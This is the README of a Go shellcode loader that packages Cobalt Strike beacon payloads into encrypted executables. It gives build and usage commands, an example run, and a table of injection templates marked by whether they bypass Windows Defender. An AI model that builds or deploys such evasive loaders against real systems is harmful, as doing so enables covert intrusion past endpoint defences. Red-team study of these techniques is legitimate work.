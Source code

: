 <p align="center">
    <br>
        <img src=img/bankai.jpg >
    <br>
</p>

# Bankai
Another Go shellcode loader designed to work with Cobalt Strike raw payload. I created this project to mainly educate myself learning Go and directly executing shellcode into the target Windows system using various techniques. 

<b>Encryption</b>
Implemented a simple payload encryption process (IV --> AES --> XOR --> Base64) that I learned while studying [SLAE32](https://bigb0ss.medium.com/expdev-custom-go-crypter-fb8f9bac0fe8).

<b>Templates</b>
Templates are the skeleton scripts to generate a final payload per each technique. 

## Installation
```
git clone https://github.com/bigb0sss/bankai.git
GO111MODULE=off go build bankai.go
```

## Usage & Example
Generate a Cobalt Strike payload:

<p align="center">
    <br>
        <img src=img/cobalt.png>
    <br>
</p>

```
./bankai -h                       

     _                 _         _ 
    | |               | |       (_)
    | |__   __ _ _ __ | | ____ _ _ 
    | '_ \ / _' | '_ \| |/ / _' | |
    | |_) | (_| | | | |   < (_| | |
    |_.__/ \__,_|_| |_|_|\_\__,_|_|
                        [bigb0ss]

    [INFO] Another Go Shellcode Loader

 
    Required:
    -i            Binary File (e.g., beacon.bin)
    -o            Payload Output (e.g, payload.exe)
    -t            Payload Template (e.g., win32_VirtualProtect.tmpl)
    -a            Arch (32|64)
    
    Optional:
    -h            Print this help menu
    -p            PID

    Templates:                                     Last update: 06/02/21
    +-----------------------------------------------+------------------+
    | Techniques                                    | Bypass Defender  |
    +-----------------------------------------------+------------------+
    | win32_VirtualProtect.tmpl                     |        No        |
    +-----------------------------------------------+------------------+
    | win64_CreateFiber.tmpl                        |        No        |
    +-----------------------------------------------+------------------+
    | win64_CreateRemoteThreadNative.tmpl           |        Yes       | 
    +-----------------------------------------------+------------------+
    | win64_CreateThread.tmpl                       |        No        | 
    +-----------------------------------------------+------------------+
    | win64_EtwpCreateEtwThread.tmpl                |        No        | 
    +-----------------------------------------------+------------------+
    | win64_Syscall.tmpl                            |        No        | 
    +-----------------------------------------------+------------------+

    Example:

    ./bankai -i beacon.bin -o payload.exe -t win64_CreateThread.tmpl -a 64

    [INFO] Key: SymE9GQBtyHL4IAq5Pm6r3b8I7PJB9l0
    [INFO] AES encrpyting the payload...
    [INFO] Arch: x64 (64-bit)
    [INFO] Template: win64_CreateThread.tmpl
    [INFO] InputFile: beacon.bin
    [INFO] OutputFile: payload.exe
```

## Credits / Acknowledgments / References
All of the work is inspired and done by the following researchers/projects:
* [go-shellcode](https://github.com/brimstone/go-shellcode) by brimstone
* [go-shellcode](https://github.com/Ne0nd0g/go-shellcode) by Ne0nd0g
* [GoPurple](https://github.com/sh4hin/GoPurple) by sh4hin
* Go Template - https://dev.to/kirklewis/go-text-template-processing-181d

## Todo
* Add more shellcode injection technique templates
* Add [AlternativeShellcodeExec](https://github.com/S4R1N/AlternativeShellcodeExec) techniques that Ali and Alfaro found





